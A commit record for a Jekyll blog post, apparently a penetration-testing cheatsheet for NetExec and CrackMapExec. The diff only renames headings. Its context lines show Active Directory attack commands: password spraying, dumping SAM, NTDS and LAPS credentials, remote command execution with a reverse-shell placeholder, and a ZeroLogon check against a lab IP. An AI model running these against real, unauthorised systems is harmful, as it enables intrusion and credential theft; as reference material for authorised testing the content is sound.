

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-NetExec-and-CrackMapExec-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 644 px. Shown: the whole window at 89% size, without its empty margins (0-1060 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-NetExec-and-CrackMapExec-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-NetExec-and-CrackMapExec-Cheatsheet.md
+++ b/_posts/2024-10-31-NetExec-and-CrackMapExec-Cheatsheet.md
@@ -9,16 +9,16 @@
 # Table of Contents
 - [Getting NetExec and CrackMapExec](#getting-netexec-and-crackmapexec)
 - [NetExec Commands](#netexec-commands)
-  - [Enumeration](#enumeration)
-  - [Checking Credentials & Password Spraying](#checking-credentials--password-spraying)
-  - [Dumping Credentials](#dumping-credentials)
-  - [Command Execution](#command-execution)
-  - [Testing CVEs](#testing-cves)
+  - [nxc Enumeration](#nxc-enumeration)
+  - [nxc Checking Credentials & Password Spraying](#nxc-checking-credentials--password-spraying)
+  - [nxc Dumping Credentials](#nxc-dumping-credentials)
+  - [nxc Command Execution](#nxc-command-execution)
+  - [nxc Testing CVEs](#nxc-testing-cves)
 - [CrackMapExec Commands](#crackmapexec-commands)
-  - [Enumeration](#enumeration-1)
-  - [Checking Credentials & Password Spraying](#checking-credentials--password-spraying-1)
-  - [Dumping Credentials](#dumping-credentials-1)
-  - [Command Execution](#command-execution-1)
+  - [cme Enumeration](#cme-enumeration)
+  - [cme Checking Credentials & Password Spraying](#cme-checking-credentials--password-spraying)
+  - [cme Dumping Credentials](#cme-dumping-credentials)
+  - [cme Command Execution](#cme-command-execution)
 
 # Getting NetExec and CrackMapExec
 ```shell
@@ -33,7 +33,7 @@
 
 # NetExec Commands
 The IP address 172.16.150.20 will be used as an example for the Domain Controller (DC01) IP address.
-## Enumeration
+## nxc Enumeration
 ```shell
 # Enumerating Network (Find active reachable hosts)
 nxc smb 172.16.150.0/24
@@ -86,7 +86,7 @@
 nxc mssql 172.16.150.20 -u john -p 'Password123!'
 nxc mssql 172.16.150.20 -u john -p 'Password123!' --local-auth
 ```
-## Checking Credentials & Password Spraying
+## nxc Checking Credentials & Password Spraying
 Important Note: Always check Domain Password Policy before Password Spraying to prevent Account Lockouts.
 ```shell
 # Check Credentials - with Password
@@ -119,7 +119,7 @@
 nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success --local-auth
 ```
 
-## Dumping Credentials
+## nxc Dumping Credentials
 ```shell
 # SAM
 nxc smb 172.16.150.20 -u john -p 'Password123!' --sam
@@ -143,7 +143,7 @@
 nxc ldap 172.16.150.20 -u john -p 'Password123!' -M laps -o computer=172.16.150.120
 ```
 
-## Command Execution
+## nxc Command Execution
 ```shell
 # CMD
 nxc smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"
@@ -156,7 +156,7 @@
 nxc mssql 172.16.150.20 -u john -p 'Password123!' -x "Enter PowerShell#3 (Base64) Reverse Shell from revshells.com here"
 ```
 
-## Testing CVEs
+## nxc Testing CVEs
 ```shell
 # ZeroLogon
 nxc smb 172.16.150.20 -u '' -p '' -M zerologon
@@ -170,7 +170,7 @@
 
 # CrackMapExec Commands
 As of 2024, CrackMapExec is deprecated, and I primarily use NetExec. However, there are still some cases where CrackMapExec remains useful. Below are the commands I use most frequently:
-## Enumeration
+## cme Enumeration
 ```shell
 # Enumerating Network (Find active reachable hosts)
 crackmapexec smb 172.16.150.0/24
@@ -187,7 +187,7 @@
 # Domain Users
 crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --users
 ```
-## Checking Credentials & Password Spraying
+## cme Checking Credentials & Password Spraying
 ```shell
 # Check Credentials - with Password
 crackmapexec smb 172.16.150.20 -u john -p 'Password123!'
@@ -207,7 +207,7 @@
 crackmapexec smb 172.16.150.20 -u domain_users.txt -p passwords_found.txt --local-auth
 ```
 
-## Dumping Credentials
+## cme Dumping Credentials
 ```shell
 # SAM
 crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --sam
@@ -222,7 +222,7 @@
 crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --ntds vss
 ```
 
-## Command Execution
+## cme Command Execution
 ```shell
 # CMD
 crackmapexec smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"
````
